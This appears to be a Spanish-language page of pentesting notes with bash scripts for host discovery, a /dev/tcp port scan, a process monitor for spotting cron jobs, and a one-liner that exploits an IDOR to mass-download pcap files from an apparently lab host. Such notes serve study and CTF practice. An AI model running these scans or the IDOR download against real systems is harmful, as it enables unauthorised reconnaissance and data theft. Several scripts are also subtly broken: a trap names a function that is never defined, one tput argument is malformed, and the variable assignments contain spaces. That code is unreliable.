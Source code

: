 # BASH

En este apartado iremos poniendo utilidades y scripts en bash.

## Host discovery

Script para descubrir host dentro de una red:

```bash
#!/bin/bash

function control_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm
	exit 0
}

# Ctlr+C
trap ctlr_c INT

tput .civis

for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 192.168.11.$i" &>/dev/null && echo "[+] El host 192.168.11.$i - ACTIVE" &
done

wait
tput cnorm
```

Y en modo OneLinner:

```bash
echo 10.0.15.{1..255} | xargs parallel -j30 ping -c1 -- | grep 'bytes from'
```

## Port discovery

Script para descubrir puertos abiertos de un maquina:

```bash
#!/bin/bash

function ctlr_c(){
    echo -e "\n\n[!] Saliendo...\n"
    tput cnorm
    exit 1
}

# Ctlr+C
trap ctlr_c INT

tput civis
for port in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/192.168.11.160/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done
wait
tput cnorm
```

## Monitor de procesos CRON

Script que monitoriza diferencias en procesos para destacar procesos CRON que se estén ejecutando en el sistema,

```bash
#!/bin/bash

# procmon.sh

function ctlr_c(){
    echo -e "\n\n[!] Saliendo...\n"
    tput cnorm
    exit 1
}

# Ctlr+C
trap ctlr_c INT

old_process = $(ps -eo command)

tput civis
while true; do
    new_process = $(ps -eo command)    
    diff <(echo $old_process) <(echo $new_process) | grep "[\>\<]" | grep -v "kworker"
    old_process = $new_process
done
tput cnorm
```

## Descarga IDOR

Script que aprovecha un idor para descargar de forma masiva en modo **oneliner**:

```bash
for i in {0..500} ; do wget http://10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; done; rm pcaps/${i}.pcap
```
